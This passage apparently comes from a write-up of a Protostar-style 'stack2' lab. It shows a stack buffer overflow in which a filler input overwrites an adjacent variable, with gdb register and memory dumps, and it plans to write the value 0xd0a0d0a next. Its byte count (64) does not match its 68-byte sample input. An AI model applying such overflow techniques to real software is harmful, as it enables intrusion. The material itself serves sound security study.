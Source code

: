 In above example input, our `GREENIE` buffer is not enough, we only allocate it with 12 bytes. So, we need to allocate (2*4) + (4*4)*3 + (2*4), thus 64 bytes. Let's try with full 64 arbitrary bytes first, later we will change the last four bytes with `0xd0a0d0a`


Input with `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ`
```
(gdb) 
eax            0xbffff708	-1073744120
ecx            0x0	0
edx            0x45	69
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff6f0	0xbffff6f0
ebp            0xbffff758	0xbffff758
esi            0x0	0
edi            0x0	0
eip            0x80484e4	0x80484e4 <main+80>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff6f0:	0xbffff708	0xbffff9c2	0xb7fff8f8	0xb7f0186e
0xbffff700:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x42424242
0xbffff710:	0x43434343	0x44444444	0x45454545	0x46464646
0xbffff720:	0x47474747	0x48484848	0x49494949	0x4a4a4a4a
0xbffff730:	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d	0x4e4e4e4e
0xbffff740:	0x4f4f4f4f	0x50505050	0x51515151	0xbffff900
0x80484e4 <main+80>:	mov    eax,DWORD PTR [esp+0x58]
0x80484e8 <main+84>:	cmp    eax,0xd0a0d0a
```
Now the `esp+0x5c` is overflowed and overwritten with `0x51515151`. Obviously in the next `cmp` instruction it will give us a false comparasion result because `0x51515151!=0xd0a0d0a`.

```
(gdb) 
eax            0x8048641	134514241
ecx            0x0	0
edx            0x51515151	1364283729
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff6f0	0xbffff6f0
ebp            0xbffff758	0xbffff758
esi            0x0	0
edi            0x0	0
eip            0x804850d	0x804850d <main+121>
eflags         0x200216	[ PF AF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff6f0:	0x08048641	0x51515151	0xb7fff8f8	0xb7f0186e
0xbffff700:	0xb7fd7ff4	0xb7ec6165	0x41414141	0x42424242
0xbffff710:	0x43434343	0x44444444	0x45454545	0x46464646
0xbffff720:	0x47474747	0x48484848	0x49494949	0x4a4a4a4a
0xbffff730:	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d	0x4e4e4e4e
0xbffff740:	0x4f4f4f4f	0x50505050	0x51515151	0xbffff900
0x804850d <main+121>:	call   0x80483ac <printf@plt>
0x8048512 <main+126>:	leave  
0x0804850d	25	in stack2/stack2.c
(gdb) 
Try again, you got 0x51515151
```